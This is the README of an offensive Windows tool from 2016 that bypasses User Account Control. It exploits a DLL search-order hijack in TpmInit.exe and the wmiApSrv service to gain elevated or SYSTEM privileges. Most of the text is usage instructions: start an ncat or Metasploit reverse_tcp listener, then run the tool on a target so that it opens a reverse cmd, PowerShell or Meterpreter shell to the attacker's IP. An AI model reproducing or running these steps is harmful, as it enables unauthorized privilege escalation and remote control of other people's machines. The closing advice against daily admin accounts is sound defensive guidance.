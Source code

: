 ```
   ______                ____      _ __
  /_  __/___  ____ ___  /  _/___  (_) /_
   / / / __ \/ __ `__ \ / // __ \/ / __/
  / / / /_/ / / / / / // // / / / / /_
 /_/ / .___/_/ /_/ /_/___/_/ /_/_/\__/
    /_/
               UAC Suicide Squad v1.1
                      By Cn33liz 2016
```

A tool to Bypass User Account Control (UAC), to get a High Integrity (or SYSTEM) Reversed Command shell, 
a reversed PowerShell session, or a Reversed Meterpreter session.
When TpmInit.exe starts, it first tries to load the wbemcomn.dll within C:\Windows\System32\wbem.
This DLL cannot be found in that folder, so it tries to load the DLL again, but then in C:\Windows\System32.
This tool exploits this DLL loading vulnerability within TpmInit.exe, which runs auto-elevated by default.
Same issue also applies to the WMI Performance Adapter service (wmiApSrv) which runs with SYSTEM privileges.
So while we can use TpmInit.exe to get Elevated priviliges, we can also use it to start the wmiApSrv service,
and get a SYSTEM shell using our custom DLL :)

Works on:

```
This version has been succesfully tested on Windows 8.1 x64 and Windows 10 x64 (Version 1511).
```

Compile:

```
This project is written in C/C++ using Windows API calls, so you need Visual Studio to compile.
Source code of the needed dll's are included within the project, but not needed to run the tool.
They are embedded within the main executable (as Base64 encoded and compressed binaries).
```

### How to use it:

```
* [>] Usage: First setup a remote Netcat, Ncat or Meterpreter(x64) listener
* [>] Example: KickAss@PenTestBox:~$ sudo ncat -lvp 443

* [>] Or for msf: KickAss@PenTestBox:~$ sudo msfconsole
* [>] msf > use exploit/multi/handler
* [>] msf exploit(handler) > set payload windows/x64/meterpreter/reverse_tcp
* [>] msf exploit(handler) > set LHOST 10.0.0.1
* [>] msf exploit(handler) > set LPORT 443
* [>] msf exploit(handler) > exploit -j

* [>] Then on your target: TpmInitUACBypass.exe <Remote Listener IP> <Port> <powershell, cmd or msf> <system>

* [>] Example1: Remote Elevated Cmd Shell:   TpmInitUACBypass.exe 10.0.0.1 443 cmd
* [>] Example2: Remote SYSTEM Cmd Shell:     TpmInitUACBypass.exe 10.0.0.1 443 cmd system
* [>] Example3: Remote Elevated PowerShell:  TpmInitUACBypass.exe 10.0.0.1 443 powershell
* [>] Example4: Remote SYSTEM PowerShell:    TpmInitUACBypass.exe 10.0.0.1 443 powershell system
* [>] Example5: Remote Elevated Meterpreter: TpmInitUACBypass.exe 10.0.0.1 443 msf
* [>] Example6: Remote SYSTEM Meterpreter:   TpmInitUACBypass.exe 10.0.0.1 443 msf system
```

### Strong Advice

* Do not use accounts with Administrative privileges for daily computer usage!
